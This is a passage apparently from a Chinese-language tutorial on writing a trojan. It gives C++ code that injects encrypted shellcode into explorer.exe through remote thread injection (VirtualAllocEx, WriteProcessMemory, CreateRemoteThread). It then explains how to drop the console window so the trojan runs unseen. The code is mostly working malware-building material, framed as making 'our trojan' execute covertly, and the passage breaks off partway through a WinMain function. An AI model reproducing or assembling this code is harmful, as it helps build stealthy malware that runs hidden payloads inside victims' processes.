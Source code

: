 ```cpp
  HANDLE hProcess = ::OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
  // 获取进程句柄失败
  if (hProcess == INVALID_HANDLE_VALUE) return false;
  auto inject_address =
      ::VirtualAllocEx(hProcess, NULL, sizeof(1000), MEM_COMMIT | MEM_RESERVE,
                       PAGE_EXECUTE_READWRITE);
  // VirtualAllocEx 失败
  if (inject_address == NULL) return false;
  // 远程写入shellcode
  ::WriteProcessMemory(hProcess, inject_address, (PVOID)shellcode, size + 1,
                       NULL);
  HANDLE hThread = ::CreateRemoteThread(
      hProcess, 0, 0, (LPTHREAD_START_ROUTINE)inject_address, NULL, 0, NULL);
  ::WaitForSingleObject(hThread, INFINITE);
  ::CloseHandle(hThread);
  ::VirtualFreeEx(hProcess, inject_address, 0, MEM_RELEASE);
  ::CloseHandle(hProcess);
  return true;
}
```
注入函数是很经典的远程线程注入，看不懂没关系，shellcode注入不是重点。

### 去除命令提示符窗口
如果你运行过我们生成的木马你会发现，一个醒目的黑窗口，亮瞎了你的双目。
现在我们去除命令提示符的黑窗口，隐秘执行我们的木马。

我们修改程序生成 `SUBSYSTEM:WINDOWS` 窗口类程序，并将入口函数修改为WinMain就可以不带命令行提示符运行程序了。
![](images/vs5.png)
```cpp
int WINAPI WinMain(_In_ HINSTANCE hInstance, _In_opt_ HINSTANCE hPrevInstance,
                   _In_ LPSTR lpCmdLine, _In_ int nShowCmd) {
  unsigned char shellcode[] = "..."; // 加密后的

  const unsigned int explorer_pid = get_pid("explorer.exe");
```